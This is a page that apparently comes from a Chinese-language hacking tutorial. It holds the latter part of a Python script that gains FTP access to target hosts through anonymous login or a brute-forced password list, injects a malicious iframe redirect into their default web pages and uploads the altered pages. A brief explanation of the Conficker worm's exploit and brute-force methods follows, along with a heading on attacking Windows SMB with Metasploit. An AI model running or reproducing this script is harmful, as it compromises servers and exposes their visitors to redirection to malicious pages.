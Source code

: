 ```python
    print("[+] Injected Malicious IFrame on: {}".format(page))
    ftp.storlines("STOR {}".format(page), open("{}.tmp".format(page)))
    print("[+] Uploaded Injected Page: {}".format(page))

def attack(username, password, target_host, redirect):
    ftp = ftplib.FTP(target_host)
    ftp.login(username, password)
    def_pages = return_default(ftp)
    for def_page in def_pages:
        inject_page(ftp, def_page, redirect)

def main():
    parser = optparse.OptionParser("usage%prog -H <target host[s]> -r <redirect page>[-f <user_pass file>]")

    parser.add_option("-H", dest="target_hosts", type=str, help="specify target host")
    parser.add_option("-f", dest="password_file", type=str, help="specify user/password file")
    parser.add_option("-r", dest="redirect", type=str, help="specify a redirection page")

    options, args = parser.parse_args()
    target_hosts = str(options.target_hosts).split(", ")
    password_file = options.password_file
    redirect = options.redirect

    if target_hosts is None or redirect is None:
        print(parser.usage)
        exit(-1)

    for target_host in target_hosts:
        username, password = None, None
        if anon_login(target_host):
            username, password = "test", "test"
            print("[+] Using Anonymous Creds to attack")
            attack(username, password, target_host, redirect)
        elif password_file is not None:
            username, password = brute_login(target_host, password_file)
            if password is not None:
                print("[+] Using Creds: {}/{} to attack".format(username, password))
                attack(username, password, target_host, redirect)

if __name__ == "__main__":
    main()
```
## Conficker，为什么努力做就够了

蠕虫病毒，Conficker（或称为 W32DownandUp），在其基本的感染方法中，Conficker 蠕虫使用了两种不同的攻击方法。首先利用了 Windows 服务器中一个服务的 0Day 漏洞。利用这个栈溢出漏洞，蠕虫能在被感染的主机上执行 ShellCode 并下载蠕虫。当这种攻击失败时，Conficker 蠕虫又尝试暴力破解默认的管理员网络共享（`ADMIN$`）的口令以获取肉机访问权。

### 使用 Metasploit 攻击 Windows SMB 服务
